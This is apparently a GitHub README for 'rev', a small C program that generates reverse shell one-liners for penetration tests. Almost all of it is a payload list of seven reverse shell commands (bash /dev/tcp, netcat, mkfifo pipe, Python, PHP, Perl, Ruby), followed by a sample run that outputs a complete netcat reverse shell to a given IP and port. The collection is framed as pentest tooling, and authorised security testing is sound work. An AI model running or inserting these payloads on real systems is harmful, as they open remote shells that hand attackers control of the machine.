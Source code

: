 # rev
Simple reverse shell one liner generator for quick pentest engagements.

## Usage

```
▶ ./rev

Usage: [IP ADDRESS] [PORT] [NUMBER OF PAYLOAD]

Payload list:
1. bash -i >& /dev/tcp/xx.x.x.x/xxxx 0>&1
2. nc -e /bin/bash xx.x.x.x xxxx
3. rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc xx.x.x.x xxxx >/tmp/f
4. python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK...
5. php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
6. perl -e 'use Socket;$i="xx.x.x.x";$p=xxxx;socket(S,PF_INET,SOCK_STREAM,getprotobyname...
7. ruby -rsocket -e'f=TCPSocket.open("xx.x.x.x",xxxx).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

```

```
▶ ./rev 192.168.0.15 4444 3

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.15 4444 >/tmp/f
```

You can pipe it to xclip to copy:

```
./rev 192.168.0.15 4444 3 | xclip -selection clipboard
```
## Compile

Compile it yourself or use pre-compiled binary from releases section.

```
gcc rev.c -o rev
```
